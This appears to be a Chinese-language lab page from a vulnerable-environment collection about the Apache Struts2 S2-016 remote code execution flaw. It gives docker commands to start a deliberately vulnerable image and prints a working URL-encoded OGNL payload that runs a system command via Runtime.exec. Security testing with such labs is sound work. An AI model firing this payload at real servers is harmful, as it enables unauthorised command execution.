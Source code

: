 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-016)"
date: 2017-06-13 18:43:58 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-016)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-016)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-016)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-016 公告](http://struts.apache.org/docs/s2-016.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-016
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-016
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/default.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-016/s2-016-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
